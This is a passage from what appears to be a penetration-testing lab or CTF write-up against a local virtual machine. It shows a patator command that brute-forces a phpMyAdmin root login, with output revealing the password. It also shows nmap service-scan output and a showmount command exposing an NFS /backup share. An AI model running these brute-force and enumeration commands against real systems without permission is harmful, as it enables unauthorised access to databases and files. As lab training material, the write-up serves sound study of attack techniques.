 ``` 
patator http_fuzz url=http://192.168.217.128/phpmyadmin/index.php method=POST body='pma_username=root&pma_password=FILE0&server=1&lang=en' 0=~/Desktop/rootpass.txt follow=1 accept_cookie=1 -x ignore:fgrep='Cannot log in to the MySQL server'
17:17:27 patator    INFO - Starting Patator v0.6 (http://code.google.com/p/patator/) at 2017-12-02 17:17 EST
17:17:27 patator    INFO -                                                                              
17:17:27 patator    INFO - code size:clen       time | candidate                          |   num | mesg
17:17:27 patator    INFO - -----------------------------------------------------------------------------
17:17:27 patator    INFO - 200  9865:7910      0.366 |                                    |     1 | HTTP/1.1 200 OK
17:17:29 patator    INFO - 200  48618:-1       0.938 | toor                               |    34 | HTTP/1.1 200 OK
17:17:29 patator    INFO - Hits/Done/Skip/Fail/Size: 2/52/0/0/52, Avg: 21 r/s, Time: 0h 0m 2s
```

Inside there are multiple databases, but at this point, I moved on to the next.

## Cracking ZIP archives

``` 
PORT      STATE SERVICE     VERSION
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  2,3,4       2049/tcp  nfs
|   100003  2,3,4       2049/udp  nfs
|   100005  1,2,3      33719/tcp  mountd
|   100005  1,2,3      41291/udp  mountd
|   100021  1,3,4      47439/tcp  nlockmgr
|   100021  1,3,4      60285/udp  nlockmgr
|   100024  1          57769/udp  status
|   100024  1          58840/tcp  status
|   100227  2,3         2049/tcp  nfs_acl
|_  100227  2,3         2049/udp  nfs_acl
2049/tcp  open  nfs_acl     2-3 (RPC #100227)
47439/tcp open  nlockmgr    1-4 (RPC #100021)
48137/tcp open  mountd      1-3 (RPC #100005)
58840/tcp open  status      1 (RPC #100024)
33719/tcp open  mountd      1-3 (RPC #100005)
43866/tcp open  mountd      1-3 (RPC #100005)
```

Alright, there's an NFS here with what appears to be a backup file:

``` 
showmount -e 192.168.217.128
Export list for 192.168.217.128:
/backup *
```
